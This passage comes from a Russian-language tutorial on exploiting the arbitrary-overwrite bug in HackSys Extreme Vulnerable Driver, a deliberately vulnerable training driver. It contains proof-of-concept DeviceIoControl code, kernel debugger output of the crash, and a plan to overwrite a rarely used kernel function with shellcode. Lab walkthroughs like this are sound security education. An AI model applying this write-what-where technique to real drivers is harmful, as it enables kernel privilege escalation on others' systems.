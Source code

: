 ```cpp
    char *poc = "AAAABBBB222233334444555566667777888899990000zzzzxxxxccccvvvvbbbbnnnnmmmmaaaassssddddffffgggghhhhjjjjkkkkllllpppp";
    //printf("%d", sizeof(poc));
    DWORD bytesRetn;
    
    printf("[+] Starting interaction with the driver\n");
    DeviceIoControl(hDevice, IO_CODE, poc, 100, NULL, 0, &bytesRetn, NULL);
    //system("cmd.exe");
    CloseHandle(hDevice);
    
    return 0;
}
```

И получим:

```js
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0040409C
[+] WRITE_WHAT_WHERE Size: 0x8
[+] UserWriteWhatWhere->What: 0x41414141
[+] UserWriteWhatWhere->Where: 0x42424242
[+] Triggering Arbitrary Overwrite
Break instruction exception - code 80000003 (first chance)
HEVD!TriggerArbitraryOverwrite+0x5e:
a8353b66 83c424          add     esp,24h
kd> g
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```

Собственно, что дальше-то? Сама дыра заключается в возможности писать произвольные данные по произвольному адресу. Обычно, возможности урезаются митигациями или в целом самой дырой (можно писать 1 байт / 1 бит / только по адресам выше N и тд)

В самом коде показан способ защиты: проверка на то, что адреса из пространства ядра

```c
ProbeForRead((PVOID)What, sizeof(PULONG_PTR), (ULONG)__alignof(UCHAR));
ProbeForWrite((PVOID)Where, sizeof(PULONG_PTR), (ULONG)__alignof(UCHAR));
```

С [msdn'а](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-probeforread)

```
The ProbeForRead routine checks that a user-mode buffer
actually resides in the user portion of the address space, and is correctly aligned.

If the specified range of memory is not within the user-mode address range,
ProbeForRead raises the STATUS_ACCESS_VIOLATION exception.
```

В этот раз у нас нет возможности просто прыгнуть на код, адрес которого мы передадим. Нам нужно переписать кукую-то бесполезную функцию, которая редко вызывается, шеллкодом, и уже тогда она сама вызовется.
